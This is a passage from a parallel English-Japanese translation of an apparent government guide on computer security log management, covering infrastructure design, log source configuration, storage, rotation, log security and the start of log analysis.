•特殊なセキュリティ制約・限定機能環境には、攻撃またはデータ漏えいのリスクが高く、機能性よりセキュリティを優先するシステムやネットワークが含まれる。こうした環境では、高度な脅威にさらされる中、システムの機能が限定的または特殊である（汎用ワークステーションやシステムではない）と想定される。例として、外部公開ファイアウォールや公開Webサーバー、あるいはデータ内容や任務上の目的が非常に重要であるため、相互運用性など他の有用なシステム特性への潜在的な悪影響よりも、セキュリティを優先する積極的なトレードオフを行うシステムがある。一部の特殊なセキュリティ制約・限定機能システムは、ログ管理インフラストラクチャに参加することで生じる潜在的なセキュリティリスク（追加ネットワークサービスの実行、保護されていない機密情報のネットワーク転送など）のため、参加能力が制限される場合がある（might）。こうしたシステムですべてのログ管理をローカルで実施するか、リムーバブル媒体などの帯域外手段でログをインフラストラクチャに転送するよう、ログ管理インフラストラクチャを設計する必要がある場合がある（might）。
•Legacy. A Legacy environment contains older systems or applications that may use older, less secure communication mechanisms. Other machines operating in a Legacy environment may need less restrictive security settings so that they can communicate with legacy systems and applications. Some Legacy systems might not be able to participate in a log management infrastructure because the necessary software cannot be installed or configured properly on them. It might be necessary to design a log management infrastructure so that these systems have all log management performed locally or that their logs are transferred to the infrastructure through out-of-band means such as removable media.
•レガシー。レガシー環境には、古く、よりセキュリティの低い通信メカニズムを使用する場合がある（may）古いシステムやアプリケーションが含まれる。他のレガシー環境の機器は、レガシーシステムおよびアプリケーションと通信するため、制限の緩いセキュリティ設定を必要とする場合がある（may）。レガシーシステムおよびアプリケーションと通信できる（can）ようにするためである。必要なソフトウェアを適切にインストールまたは構成できないため、ログ管理インフラストラクチャに参加できない（might）レガシーシステムもある。こうしたシステムですべてのログ管理をローカルに実施するか、リムーバブル媒体などの帯域外手段でログをインフラストラクチャに転送するよう、ログ管理インフラストラクチャを設計する必要がある場合もある（might）。
4.4 Design Log Management Infrastructures
4.4 ログ管理インフラストラクチャの設計
After establishing an initial policy and identifying roles and responsibilities, an organization should next design one or more log management infrastructures that effectively support the policy and roles. If the organization already has a log management infrastructure, then the organization should first determine if it can be modified to meet the organization’s needs. If the existing infrastructure is unsuitable, or no such infrastructure exists, then the organization should either identify its infrastructure requirements, evaluate possible solutions, and implement the chosen solution (hardware, software, and possibly network enhancements), or reevaluate its needs and modify its policy. Organizations may wish to create a draft policy, attempt to design a corresponding log management infrastructure, and determine what aspects of the policy make that infeasible. The organization can then revise its policies so that the infrastructure implementation will be less resource-intensive, while ensuring that all legal and regulatory requirements are still met. Because of the complexities of log management, it may take a few cycles of policy modification, infrastructure design, and design assessment to finalize the policy and design.
初期ポリシーを確立し、役割と責任を特定した後、組織はそのポリシーと役割を効果的に支援する1つ以上のログ管理インフラストラクチャを設計すべきである（should）。組織がすでにログ管理インフラストラクチャを持つ場合、まず既存のものを変更して組織のニーズを満たすことができるか（can）判断すべきである（should）。既存インフラストラクチャが適切でない場合、またはインフラストラクチャが存在しない場合、組織はインフラストラクチャ要件を特定し、可能なソリューションを評価して、選択したソリューション（ハードウェア、ソフトウェア、必要に応じたネットワーク拡張）を実装するか、ニーズを再評価してポリシーを修正すべきである（should）。組織は、ポリシー案を作成し、それに対応するログ管理インフラストラクチャの設計を試み、ポリシーのどの要素が実現困難にするかを判断したい場合がある（may）。その後、すべての法的・規制要件を満たしつつ、インフラストラクチャの実装に必要なリソースを減らせる（will）よう、組織はポリシーを改訂できる（can）。ログ管理は複雑なため、ポリシーと設計を最終決定するまで、ポリシー修正、インフラストラクチャ設計、設計評価のサイクルを数回繰り返す場合がある（may）。
When designing a log management infrastructure, organizations should consider several factors related to the current and future needs of both the infrastructure and the individual log sources throughout the organization. Major factors include the following:
ログ管理インフラストラクチャを設計する際、組織はインフラストラクチャ自体と組織内の個々のログソースの現在および将来のニーズに関する複数の要因を考慮すべきである（should）。主な要因は次のとおりである。
•The typical and peak volume of log data to be processed per hour and day. The typical volume of log data tends to increase over time for most log sources. The peak volume should include handling extreme situations, such as widespread malware incidents, vulnerability scanning, and penetration tests that may cause unusually large numbers of log entries to be generated in a short period of time. If the volume of log data is too high, a logging denial of service may result. Many logging products rate their capacity for processing log data by the volume of events they can process in a given time, most often in events per second (EPS).
•1時間および1日あたりに処理するログデータの通常量とピーク量。ほとんどのログソースでは、ログデータの通常量は時間とともに増加する傾向がある。ピーク量の想定には、広範囲のマルウェアインシデント、脆弱性スキャン、侵入テストなど、短時間に異常に大量のログエントリを生成する可能性がある（may）極端な状況への対応を含めるべきである（should）。ログデータ量が多すぎると、ロギングに対するサービス拒否が発生する可能性がある（may）。多くのロギング製品は、一定時間内に処理できるイベント量（通常は毎秒イベント数（EPS））でログデータ処理能力を示している（can）。
•The typical and peak usage of network bandwidth.
•ネットワーク帯域幅の通常使用量とピーク使用量。
•The typical and peak usage of online and offline (e.g., archival) data storage. This should include an analysis of the time and resources needed to perform backups and archival of log data, as well as disposing of the data once it is no longer needed.
•オンラインおよびオフライン（アーカイブなど）のデータ保存の通常使用量とピーク使用量。ログデータのバックアップとアーカイブ、および不要になった後のデータ廃棄に必要な時間とリソースの分析を含めるべきである（should）。
•The security needs for the log data. For example, if log data needs to be encrypted when transmitted between systems, this could require more processing by the systems, as well as increased usage of network bandwidth.
•ログデータのセキュリティニーズ。たとえば、システム間で転送するときにログデータを暗号化する必要がある場合、システムの処理負荷とネットワーク帯域幅の使用量が増加する可能性がある（could）。
•The time and resources needed for staff to analyze the logs.
•職員がログ分析に必要とする時間とリソース。
4.5 Summary
4.5 まとめ
To establish and maintain successful log management infrastructures, an organization should perform significant planning and other preparatory actions for performing log management. This is important for creating consistent, reliable, and efficient log management practices that meet the organization’s needs and requirements and also provide additional value for the organization.
ログ管理インフラストラクチャを成功裏に確立・維持するため、組織はログ管理を実施するための大規模な計画やその他の準備作業を行うべきである（should）。これは、組織のニーズと要件を満たし、組織にさらなる価値をもたらす、一貫性・信頼性・効率性のあるログ管理実践を作成するうえで重要である。
As part of the log management planning process, an organization should define the roles and responsibilities of individuals and teams who are expected to be involved in log management. System and network administrators are usually responsible for configuring logging on their systems and network devices, analyzing those logs periodically, reporting on the results of log management activities, and performing regular maintenance of the logs and logging software. Security administrators are usually responsible for managing and monitoring the log management infrastructure, configuring logging on security devices, reporting on the results of log management activities, and assisting others with log management. Many others within an organization may also have log management roles, such as incident handlers, application developers, auditors, and management. Assignment of roles and responsibilities should take into account the benefits of performing analysis at the system level and the infrastructure level. System-level administrators need to receive adequate support from the organization, such as training, mechanisms for disseminating information, technical guidance, and log management tools.
ログ管理の計画プロセスの一環として、組織はログ管理に関与することが見込まれる個人およびチームの役割と責任を定義すべきである（should）。システム管理者およびネットワーク管理者は通常、自身のシステムやネットワーク機器のロギング構成、ログの定期分析、ログ管理活動結果の報告、ログおよびロギングソフトウェアの定期保守に責任を負う。セキュリティ管理者は通常、ログ管理インフラストラクチャの管理・監視、セキュリティ機器のロギング構成、ログ管理活動結果の報告、他者へのログ管理支援に責任を負う。インシデント対応担当者、アプリケーション開発者、監査人、管理職など、組織内の他の多くの人々もログ管理の役割を担う場合がある（may）。役割と責任の割り当てでは、システムレベルおよびインフラストラクチャレベルで分析を実施する利点を考慮すべきである（should）。組織は、研修、情報周知の仕組み、技術ガイダンス、ログ管理ツールなど、システムレベル管理者に十分な支援を提供する必要がある。
An organization should define its requirements and goals for performing logging and monitoring logs. Based on that determination, the organization should then develop policies that clearly define mandatory requirements and suggested recommendations for several aspects of log management, including log generation, transmission, storage, disposal, and analysis. The organization should also ensure that other policies, guidelines, and procedures that have some relationship to logging incorporate and support these log management requirements and recommendations, and also comply with functional and operational requirements. The organization’s policies and procedures should also address legal issues related to logging, such as the preservation of original log files that may be needed as evidence. Organizations should perform periodic reviews of their logging-related policies and update them as needed.
組織は、ロギングの実施およびログ監視に関する要件と目標を定義すべきである（should）。その決定に基づき、ログの生成、転送、保存、廃棄、分析など、ログ管理の複数の側面について必須要件と推奨事項を明確に定めるポリシーを策定すべきである（should）。組織は、ロギングに関係する他のポリシー、ガイドライン、手順にもログ管理要件と推奨事項が組み込まれ、これらを支援し、機能・運用要件にも準拠するよう確保すべきである（should）。組織のポリシーおよび手順では、証拠として必要となる可能性がある（may）元のログファイルの保全など、ロギングに関する法的問題も扱うべきである（should）。組織はロギング関連ポリシーを定期的に見直し、必要に応じて更新すべきである（should）。
Creating requirements and recommendations for logging needs to be done in conjunction with an analysis of the technology and resources needed to implement and maintain them, their security implications and value, and the regulations and laws to which the organization is subject. Generally, organizations should only require logging and analyzing the data that is of greatest importance, and also have non-mandatory recommendations for which other types of data should be logged and analyzed if time and resources permit. In some cases, organizations choose to have all or nearly all log data generated and stored for at least a short period of time in case it is needed; this approach favors security over usability and resource usage.
ロギング要件および推奨事項の策定は、それらの実装・維持に必要な技術とリソース、セキュリティ上の影響と価値、組織に適用される法令・規制の分析と併せて行う必要がある。一般に、組織は最も重要なデータのみをロギング・分析の必須対象とすべきである（should）。また、時間とリソースが許す場合に記録・分析すべき他の種類のデータについて、任意の推奨事項も設けるべきである（should）。一部の組織は、必要に備えて、すべてまたはほぼすべてのログデータを生成し、少なくとも短期間保存することを選択する。この方法は、使いやすさやリソース使用量よりセキュリティを優先する。
After establishing an initial policy and identifying roles and responsibilities, an organization should next design one or more log management infrastructures that effectively support the policy and roles. When designing the infrastructures, organizations should consider the current and future needs of both the infrastructures and the individual log sources throughout the organization. Major factors to consider in the design include the volume of log data to be processed, network bandwidth, online and offline data storage, the security needs for the data, and the time and resources needed for staff to analyze the logs.
初期ポリシーを確立し、役割と責任を特定した後、組織はポリシーと役割を効果的に支援する1つ以上のログ管理インフラストラクチャを設計すべきである（should）。設計時には、インフラストラクチャ自体と組織内の個々のログソースの現在および将来のニーズを考慮すべきである（should）。設計で考慮すべき主な要因には、処理対象ログデータの量、ネットワーク帯域幅、オンラインおよびオフラインのデータ保存、データのセキュリティニーズ、ログ分析を行う職員に必要な時間とリソースが含まれる。
5. Log Management Operational Processes
5. ログ管理の運用プロセス
System-level and infrastructure administrators should follow standard processes for managing the logs for which they are responsible. This section describes the major operational processes for log management, which are as follows:
システムレベル管理者およびインフラストラクチャ管理者は、自らが責任を負うログを管理するため、標準プロセスに従うべきである（should）。本節では、ログ管理の主要な運用プロセスを説明する。具体的には次のとおりである。
•Configure the log sources, including log generation, storage, and security
•ログ生成、保存、セキュリティを含むログソースの構成
•Perform analysis of log data
•ログデータの分析
•Initiate appropriate responses to identified events
•識別されたイベントに対する適切な対応の開始
•Manage the long-term storage of log data.
•ログデータの長期保存の管理。
This section describes each of these processes and provides guidance on performing them. It also provides a brief discussion of other operational processes that system-level and infrastructure administrators should perform. The section also describes the need to perform regular audits of log management operations. The guidance in this section is based on the assumption that an organization has already designed and deployed one or more log management infrastructures.
本節では、これらの各プロセスを説明し、実施に関するガイダンスを示す。また、システムレベルおよびインフラストラクチャ管理者が実施すべき（should）他の運用プロセスについても簡潔に論じる。本節ではログ管理運用の定期監査を実施する必要性も説明する。本節のガイダンスは、組織がすでに1つ以上のログ管理インフラストラクチャを設計・導入していることを前提とする。
5.1 Configure Log Sources
5.1 ログソースの構成
System-level administrators need to configure log sources so that they capture the necessary information in the desired format and locations, as well as retain the information for the appropriate period of time. Configuring log sources is often a complex process. First, administrators need to determine which of their hosts and host components must or should participate in the log management infrastructure, based on the organization’s policies. A single log file might contain information from several sources, such as an OS log containing information from the OS itself and several security software programs and applications. Administrators should ascertain which log sources use each log file.52
システムレベル管理者は、必要な情報を所望の形式および場所で取得し、適切な期間保持できるよう、ログソースを構成する必要がある。ログソースの構成は複雑なプロセスであることが多い。まず、組織のポリシーに基づいて、どのホストとホスト構成要素がログ管理インフラストラクチャに参加しなければならないか（must）または参加すべきか（should）を管理者が判断する必要がある。単一のログファイルに複数ソースの情報が含まれる場合がある（might）。たとえば、OS自体と複数のセキュリティソフトウェアやアプリケーションからの情報を含むOSログがある。管理者は、各ログファイルをどのログソースが使用しているか確認すべきである（should）。52
Next, for each identified log source, administrators need to determine which types of events each log source must or should log, as well as which data characteristics must or should be logged for each type of event.53 The administrator’s ability to configure each log source is dependent on the features offered by that particular type of log source. For example, some log sources offer very granular configuration options, while some offer no granularity at all—logging is simply enabled or disabled, with no control over what is logged. This section discusses log source configuration in three categories: log generation, log storage and disposal, and log security.
次に、特定した各ログソースについて、各ログソースがどの種類のイベントを記録しなければならないか（must）または記録すべきか（should）、また各イベント種別についてどのデータ特性を記録しなければならないか（must）または記録すべきか（should）を管理者が判断する必要がある。53 各ログソースを構成できる範囲は、その種類のログソースが備える機能によって異なる。たとえば、非常に細かな構成オプションを備えるログソースもあれば、粒度がまったくなく、記録の有効・無効を切り替えるだけで、記録対象を制御できないものもある。本節では、ログ生成、ログ保存と廃棄、ログセキュリティの3分類でログソースの構成を論じる。
5.1.1 Log Generation
5.1.1 ログ生成
Assuming that a log source offers configuration options, it is generally prudent to be conservative when selecting initial logging settings.54 A single setting could cause an enormous number of log entries to be recorded, or far too much information to be logged for each event. Excessive logging can cause loss of log data, as well as operational problems such as system slowdowns or even denial of service conditions. System-level administrators need to consider the likely effect of the log source configuration not only on the logging host, but also on other log management infrastructure components—for example, excessive logging can cause significantly more usage of network bandwidth and centralized log storage.
ログソースに構成オプションがある場合、初期ロギング設定を選択する際は一般に慎重な設定にするのが賢明である。54 単一の設定で膨大な数のログエントリが記録されたり、各イベントについて過剰な情報が記録されたりする場合がある（could）。過度のロギングはログデータの損失だけでなく、システム速度の低下やサービス拒否状態などの運用上の問題を引き起こす可能性がある（can）。システムレベル管理者は、ログソース構成がロギングホストだけでなく、他のログ管理インフラストラクチャ構成要素にも及ぼす影響を考慮する必要がある。たとえば、過度のロギングによってネットワーク帯域幅と集中ログ保存領域の使用量が大幅に増加する可能性がある（can）。
For log source configurations with which administrators are not completely familiar, administrators might choose to test them in a non-production environment before deploying them to any production systems. This is particularly recommended for the most common log sources, log sources on critical hosts, and the most important log sources. Software vendors and other parties may also have information available on the logging capabilities and typical effects of various logging settings, which can be very helpful in determining an initial configuration.55
ログソース構成に十分詳しくない場合、管理者は本番システムに導入する前に、本番以外の環境で試験することを選択する場合がある（might）。これは、最も一般的なログソース、重要ホスト上のログソース、最重要のログソースで特に推奨される。ソフトウェアベンダーやその他の関係者が、ロギング機能や各種設定の一般的な影響に関する情報を提供している場合もあり（may）、初期構成を決める際に非常に役立つ（can）。55
5.1.2 Log Storage and Disposal
5.1.2 ログの保存と廃棄
System-level administrators need to determine how each log source should store its data. This should be driven primarily by organizational policies regarding log storage, particularly requirements to forward entries to a log management infrastructure. Once such requirements have been met, administrators typically have significant flexibility regarding other log storage settings. The storage options for log entries are as follows:
システムレベル管理者は、各ログソースがデータをどのように保存すべきか（should）を決定する必要がある。これは主として、ログ管理インフラストラクチャへのエントリ転送要件など、ログ保存に関する組織ポリシーに基づくべきである（should）。そのような要件を満たした後、管理者は通常、他のログ保存設定について大きな柔軟性を持つ。ログエントリの保存方法は次のとおりである。
•Not stored. Entries that are determined to be of little or no value to the organization, such as debugging messages that can only be understood by the software vendor, or error messages that do not log any details of the activity, generally do not need to be stored.
•保存しない。ソフトウェアベンダーにしか理解できないデバッグメッセージや、活動の詳細を記録しないエラーメッセージなど、組織にとって価値がほとんどない、またはまったくないと判断されたエントリは、一般に保存する必要がない。
•System level only. Entries that might be of some value or interest to the system-level administrator, but are not sufficiently important to be sent to the log management infrastructure, should be stored on the system. For example, if an incident occurs, additional system-level log entries might provide more information on the series of events related to the incident. System-level administrators might also find it helpful to review these entries to develop baselines of typical activity and identify long-term trends.
•システムレベルのみ。システムレベル管理者にとって価値または関心がある可能性がある（might）が、ログ管理インフラストラクチャに送信するほど重要ではないエントリは、システム上に保存すべきである（should）。たとえば、インシデントが発生した際、システムレベルの追加ログエントリからインシデントに関連する一連のイベントについてより多くの情報を得られる場合がある（might）。システムレベル管理者は、一般的な活動のベースラインを作成し、長期的な傾向を特定するためにこれらのエントリを確認すると役立つ場合もある（might）。
•Both system level and infrastructure level. Entries deemed to be of particular interest should be retained on the system and also transmitted to the log management infrastructure. Reasons for having the logs in both locations include the following:
•システムレベルとインフラストラクチャレベルの両方。特に関心があると判断されたエントリは、システム上に保持するとともにログ管理インフラストラクチャへ転送すべきである（should）。両方の場所にログを保持する理由には、次がある。
•If either the system or infrastructure logging should fail, the other should still have the log data. For example, if a log server fails or a network failure prevents logging hosts from contacting it, logging to the system helps to ensure that the log data is not lost.
•システム側またはインフラストラクチャ側のロギングに障害が発生した場合でも、もう一方にはログデータが残っているべきである（should）。たとえば、ログサーバーに障害が発生した場合や、ネットワーク障害によりロギングホストがログサーバーに接続できない場合、システムへのロギングによってログデータの損失防止に役立つ。
•During an incident on a system, the system’s logs might be altered or destroyed by attackers; however, usually the attacker will not have any access to the infrastructure logs. Incident response staff can use the data from the infrastructure logs; also, they can compare the infrastructure and system logs to determine what data was changed or removed, which may indicate what the attacker wanted to conceal.
•システム上でインシデントが発生している間に、攻撃者がシステムログを改変または破壊する場合がある（might）。ただし、通常、攻撃者はインフラストラクチャログにはアクセスできない（will）。インシデント対応担当者はインフラストラクチャログのデータを使用できる（can）。また、インフラストラクチャログとシステムログを比較して、変更または削除されたデータを特定できる（can）。その情報は攻撃者が隠そうとした内容を示す場合がある（may）。
•System or security administrators for a particular system are often responsible for analyzing its logs, but not for analyzing its log data on infrastructure log servers.56 Accordingly, the system logs need to contain all data of interest to the system-level administrators.
•特定システムのシステム管理者またはセキュリティ管理者は、そのログの分析を担当することが多いが、インフラストラクチャのログサーバー上にあるログデータの分析は担当しない。56 したがって、システムログにはシステムレベル管理者が関心を持つすべてのデータを含める必要がある。
•Infrastructure level only. If logs are stored on the infrastructure servers, generally it is preferable to also store them at the system level. However, this is not always possible, such as systems with little capacity for logs or log sources not capable of storing logs locally (e.g., an application that can only log to a remote logging server).
•インフラストラクチャレベルのみ。ログがインフラストラクチャサーバーに保存される場合、一般にシステムレベルにも保存することが望ましい。ただし、ログ容量がほとんどないシステムや、ローカルにログを保存できないログソース（リモートログサーバーにしか記録できないアプリケーションなど）では、常に可能とは限らない（can）。
Configuring log sources to store entries in the necessary locations, as well as transmit entries to the log management infrastructure, can be tricky. As mentioned at the beginning of Section 5.1, log sources vary greatly in their customizability. Examples are as follows:
必要な場所にエントリを保存し、ログ管理インフラストラクチャへ転送するようログソースを構成するのは、難しい場合がある（can）。5.1節の冒頭で述べたように、ログソースのカスタマイズ可能性は大きく異なる。例を以下に示す。
•Some can only log to a single system log file. Log management infrastructures typically support common log file formats, such as comma-separated or tab-separated values, syslog, and databases. Some infrastructures also support the most popular proprietary log formats. If a log format is not supported by the infrastructure software, system-level administrators may need to get log conversion programs that can be run periodically to convert the logs to a format that the infrastructure can use. If this is not an option, then administrators may have to perform regular manual reviews of the log, and the log contents will not be sent to the infrastructure servers. Log sources that store their data in proprietary formats typically provide log viewer or analysis tools to assist administrators in performing analysis.
•システムログファイル1つにしか記録できないものがある（can）。ログ管理インフラストラクチャは通常、カンマ区切り値やタブ区切り値、syslog、データベースなど、一般的なログファイル形式をサポートする。一部のインフラストラクチャは最も一般的な独自ログ形式もサポートする。ログ形式がインフラストラクチャソフトウェアでサポートされない場合、システムレベル管理者は、ログをインフラストラクチャが使用できる（can）形式に定期変換するため、定期的に実行できる（can）ログ変換プログラムを入手する必要がある場合がある（may）。これができない場合、管理者はログを定期的に手動確認しなければならない場合があり（may）、ログ内容はインフラストラクチャサーバーに送信されない（will）。独自形式でデータを保存するログソースは通常、分析を支援するログビューアーまたは分析ツールを提供する。
•Some can use multiple types of system logs, such as a proprietary format log or a standard format log (e.g., syslog). In many cases, the logs do not contain all of the same data; proprietary format logs often contain more data fields than the standard format logs. One option with some log sources is to send data to multiple system logs simultaneously. This allows system-level administrators to perform their analysis using the proprietary format logs, while making much of the data available in a standard format for the log management infrastructure.
•独自形式ログや標準形式ログ（syslogなど）といった複数種類のシステムログを使用できるものがある（can）。多くの場合、ログに含まれるデータはすべて同じではなく、独自形式のログは標準形式のログより多くのデータフィールドを含むことが多い。一部のログソースでは、複数のシステムログに同時にデータを送信できる。これにより、システムレベル管理者は独自形式ログを使用して分析しつつ、ログ管理インフラストラクチャ向けに多くのデータを標準形式で利用できる。
•Some can log both at the system level and the infrastructure level simultaneously. It is even possible with some log sources to specify which types of log entries should go to each source, rather than sending the same entries to each log source.
•システムレベルとインフラストラクチャレベルの両方に同時に記録できるログソースもある（can）。一部のログソースでは、同じエントリを各ソースに送るのではなく、どの種類のログエントリを各ソースに送るか指定することもできる（should）。
Local log rotation is another important part of configuring log sources. System-level and infrastructure administrators should configure all log sources to perform log rotation, preferably both at a regular time (e.g., hourly, daily, weekly) and when a maximum log size is reached (e.g., 1 megabyte [MB], 10 MB, 100 MB).57 If a log source does not provide a log rotation capability, an administrator might need to deploy a separate log rotation utility or script for the logs. Some log sources do not lend themselves to third-party log rotation, such as some logs in proprietary formats. In these cases, the log sources typically offer the administrator choices on what to do when the log becomes full, such as the following:
ローカルログローテーションも、ログソース構成の重要な要素である。システムレベル管理者とインフラストラクチャ管理者は、すべてのログソースについて、定期時刻（毎時、毎日、毎週など）と最大ログサイズ到達時（1メガバイト（MB）、10 MB、100 MBなど）の両方でローテーションするよう構成すべきである（should）。57 ログソースにログローテーション機能がない場合、管理者はログ用の別のログローテーションユーティリティまたはスクリプトを導入する必要がある場合がある（might）。独自形式の一部ログなど、サードパーティ製ローテーションに適さないログソースもある。このような場合、ログが満杯になった際の処理方法として、通常次のような選択肢がログソースから管理者に提供される。
•Stop logging. This is generally an unacceptable option because it permits operations to continue without allowing monitoring of related security events.
•ロギングを停止する。これは通常、関連するセキュリティイベントを監視できないまま運用の継続を許すため、許容できない選択肢である。
•Overwrite the oldest entries. This is often acceptable for lower-priority log sources, particularly when the significant log entries have already been transmitted to a log server or archived to offline storage. This is also typically the best method for logs that are very difficult to rotate.
•最も古いエントリを上書きする。これは、特に重要なログエントリがすでにログサーバーへ転送されているかオフラインストレージにアーカイブされている場合、優先度の低いログソースでは許容できることが多い。ローテーションが非常に難しいログでは、これが通常最善の方法である。
•Stop the log generator. When logging is critical, it may be necessary to configure the OS, security software, or application generating the logs to shut down when there is no space left for more log entries. On such systems, administrators should take reasonable measures to ensure that log generators have adequate space for their logs and that log usage is monitored closely.
•ログ生成元を停止する。ロギングが不可欠な場合、ログ生成元となるOS、セキュリティソフトウェア、アプリケーションに、ログエントリ用の空き容量がなくなった時点でシャットダウンするよう構成する必要がある場合がある（may）。このようなシステムでは、ログ生成元に十分なログ保存領域があり、ログ使用量が注意深く監視されるよう、管理者は妥当な措置を講じるべきである（should）。
Many of these log sources can also alert administrators when a log is nearly full (generally, a predetermined threshold such as 80 or 90% full), and again when the log is completely full. This can be helpful for any log source, but is most effective for logs that fill slowly—the first warning of the log becoming full may be sent several days before the log is completely full, giving administrators ample time to archive any needed log entries and then clear the log.
これらのログソースの多くは、ログがほぼ満杯になった時（一般に、80%または90%など事前に定めたしきい値）と、完全に満杯になった時に、管理者へアラートを送ることもできる（can）。これはどのログソースにも役立つが、ゆっくり満杯になるログで最も効果的である。ログが満杯になる最初の警告が、完全に満杯になる数日前に送信される場合があり（may）、必要なログエントリをアーカイブしてログを消去する十分な時間を管理者に与える。
Infrastructure and system-level administrators are also responsible for ensuring that old logs are archived for the appropriate length of time and then destroyed when no longer needed, in compliance with the organization’s logging, data retention, and media sanitization policies.58 If substantial volumes of logs need to be kept on the system to expedite analysis or for other reasons, administrators might need to acquire additional storage devices (e.g., hard drives) for the archived logs. If old log data still on a system is no longer needed because it is not of importance or has already been archived, it is usually disposed of either by deleting the old log files or by performing log clearing to remove all entries that precede a certain date and time. Many log sources offer log clearing features.
インフラストラクチャ管理者およびシステムレベル管理者は、組織のロギング、データ保持、媒体サニタイズのポリシーに従い、古いログを適切な期間アーカイブし、不要になった時点で破棄する責任も負う。58 分析を迅速化するため、または他の理由により大量のログをシステム上に保持する必要がある場合、管理者はアーカイブ済みログ用の追加ストレージデバイス（ハードドライブなど）を入手する必要がある場合がある（might）。重要性がない、またはすでにアーカイブ済みであるため、システム上に残る古いログデータが不要になった場合、通常は古いログファイルを削除するか、特定の日時より前のすべてのエントリを削除するログ消去を実施して廃棄する。多くのログソースはログ消去機能を備える。
5.1.3 Log Security
5.1.3 ログセキュリティ
Infrastructure and system-level administrators need to protect the integrity and availability of log data, and often protect its confidentiality as well. Section 5.1.2 describes log storage and archival practices, which support availability. Additional security considerations for securing logs on systems, in storage, and in transit include the following:
インフラストラクチャ管理者およびシステムレベル管理者は、ログデータの完全性と可用性を保護し、機密性も保護する必要があることが多い。5.1.2節では、可用性を支えるログの保存およびアーカイブの実践について説明する。システム上、保存中、転送中のログを保護するためのその他のセキュリティ上の考慮事項を以下に示す。
•Limit access to log files. Users should not have any access to most log files unless some level of access is necessary for creating log entries. If so, users should have append-only privileges and no read access if possible. Users should not be able to rename, delete, or perform other file-level operations on log files.
•ログファイルへのアクセスを制限する。ログエントリの作成に何らかのアクセスが必要な場合を除き、ユーザーはほとんどのログファイルにアクセスできるべきではない（should not）。その場合でも、ユーザーには追記専用権限を付与し、可能であれば読み取りアクセスは付与しないようにすべきである（should）。ユーザーがログファイルの名前変更、削除、その他のファイル操作を実行できるようにすべきではない（should not）。
•Avoid recording unneeded sensitive data. Some logs may record sensitive data, such as passwords, that does not need to be logged. When feasible, logging should be configured not to record information that is not required and would present a substantial risk if accessed by unauthorized parties.
•不要な機密データの記録を避ける。一部のログは、記録する必要のないパスワードなどの機密データを記録する場合がある（may）。実行可能な場合、ロギングは、必須ではなく、不正な当事者がアクセスした場合に重大なリスクをもたらす（would）情報を記録しないよう構成すべきである（should）。
•Protect archived log files. This could include creating and securing message digests for the files, encrypting log files, and providing adequate physical protection for archival media.
•アーカイブ済みログファイルを保護する。ファイルのメッセージダイジェストを作成して安全に保管すること、ログファイルを暗号化すること、アーカイブ媒体に適切な物理的保護を施すことなどが含まれる場合がある（could）。
•Secure the processes that generate the log entries. Unauthorized parties should not be able to manipulate log source processes, executable files, configuration files, or other components of the log sources that could impact logging.
•ログエントリを生成するプロセスを保護する。不正な当事者が、ロギングに影響を与える可能性のある（could）ログソースのプロセス、実行可能ファイル、構成ファイル、その他の構成要素を操作できるようにすべきではない（should not）。
•Configure each log source to behave appropriately when logging errors occur. For example, logging might be considered so important for a particular log source that the log source should be configured to suspend its functionality completely when logging fails. Another example is handling full log files, as described in Section 5.1.2.
•ロギングエラー発生時に各ログソースが適切に動作するよう構成する。たとえば、特定ログソースのロギングが非常に重要であると考えられる（might）場合、ロギングに失敗したときにそのログソースの機能を完全に停止するよう構成すべきである（should）。別の例として、5.1.2節で説明したログファイル満杯時の処理がある。
•Implement secure mechanisms for transporting log data from the system to the centralized log management servers, if such protection is needed and not provided automatically by the log management infrastructure. Many transport protocols, such as FTP and Hypertext Transfer Protocol (HTTP), do not provide protection. An administrator might need to upgrade a system’s logging software to a version that has additional security features, or to encrypt the logging communications through a separate protocol such as Internet Protocol Security (IPsec) or SSL.
•必要な保護がログ管理インフラストラクチャによって自動的に提供されない場合、システムから集中ログ管理サーバーにログデータを転送するための安全なメカニズムを実装する。FTPやハイパーテキスト転送プロトコル（HTTP）など、多くの転送プロトコルは保護を提供しない。管理者は、追加のセキュリティ機能を持つバージョンにシステムのロギングソフトウェアをアップグレードするか、インターネットプロトコルセキュリティ（IPsec）やSSLなどの別のプロトコルを介してロギング通信を暗号化する必要がある場合がある（might）。
5.2 Analyze Log Data
5.2 ログデータの分析
Effective analysis of log data is often the most challenging aspect of log management, but is also usually the most important. Although analyzing log data is sometimes perceived by administrators as uninteresting and inefficient (e.g., little value for much effort), having robust log management infrastructures and automating as much of the log analysis process as possible can significantly improve analysis so that it takes less time to perform and produces more valuable results. This section provides recommendations on gaining an understanding of logs and prioritizing log entries, and also compares system-level and infrastructure-level analysis.
ログデータの効果的な分析は、ログ管理で最も難しい側面であることが多いが、通常、最も重要でもある。管理者はログ分析を、興味がなく非効率な作業（多大な労力に対して得られる価値が小さいなど）と捉えることがある。堅牢なログ管理インフラストラクチャを持ち、ログ分析プロセスを可能な限り自動化すると、分析を大幅に改善でき（can）、その結果、分析にかかる時間が短くなり、より価値の高い結果が得られる。本節では、ログの理解とログエントリの優先順位付けに関する推奨事項を示し、システムレベル分析とインフラストラクチャレベル分析を比較する。
5.2.1 Gaining an Understanding of Logs
5.2.1 ログの理解
The key to performing log analysis is understanding the typical activity associated with each system. Although some log entries are very easy to understand, many are not. The primary reasons for this are as follows:
ログ分析を実施する鍵は、各システムに関連する典型的な活動を理解することである。一部のログエントリは非常に理解しやすいが、多くはそうではない。主な理由は以下のとおりである。
•Need for Context. The meaning of an entry often depends upon the context surrounding it. Administrators need to determine how this context is defined, such as through additional log entries in one or more logs, or through non-log sources (e.g., configuration management records). Context is needed to validate unreliable log entries, such as security software that often generates false positives when looking for malicious activity. Infrastructure administrators should reach out to system-level administrators as needed to help provide context for entries.
•背景情報の必要性。エントリの意味は、その周囲の背景情報に左右されることが多い。管理者は、1つ以上のログの追加エントリや、ログ以外の情報源（構成管理記録など）を通じて、背景情報をどのように定義するか判断する必要がある。悪意ある活動を探す際に誤検知を頻繁に生成するセキュリティソフトウェアなど、信頼性の低いログエントリを検証するには背景情報が必要である。インフラストラクチャ管理者は、エントリの背景情報を得るために必要に応じてシステムレベル管理者に働きかけるべきである（should）。
•Unclear Messages. A log entry might contain a cryptic message or code that is meaningful to the software vendor but not to the administrator reviewing the entry. Such entries might necessitate discussions with the software vendor to determine their meanings. Using SIEM software to analyze logs typically reduces the number of unclear messages because the SIEM software often has detailed knowledge of software vendors’ logging practices. However, even SIEM software cannot understand every message, such as new message types associated with a just-released update to a product.
